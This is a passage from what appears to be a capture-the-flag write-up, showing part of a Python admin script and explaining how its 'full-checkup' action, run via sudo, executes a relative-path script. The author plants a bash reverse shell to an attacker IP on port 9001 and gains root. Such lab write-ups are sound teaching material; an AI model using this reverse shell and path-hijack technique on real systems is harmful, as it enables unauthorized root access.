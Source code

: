 ```python
    
    elif action == 'docker-ps':
        try:
            arg_list = ['docker', 'ps']
            print(run_command(arg_list)) 
        
        except:
            print('Something went wrong')
            exit(1)

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
            

if __name__ == '__main__':

    try:
        action = sys.argv[1]
        if action in actions:
            process_action(action)
        else:
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```

This code first verifies that the selected action is one of the three provided, then it executes such action. However, taking a closer look to the third action (`full-checkup`) I discovered a possible vulnerability: this command looks for a file called `full-checkup.sh` in the directory the command is invoked. So, I can create a file called `full-checkup.sh` in a directory I have write permissions and then execute the command:
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
This will run the just created script as root. So, I can simply use such script to open a reverse root shell to my machine:
```bash
#!/bin/bash
/bin/sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1
```

And on my local machine I obtained a root shell on my netcat listener. The root flag is stored in the `/root/root.txt` file.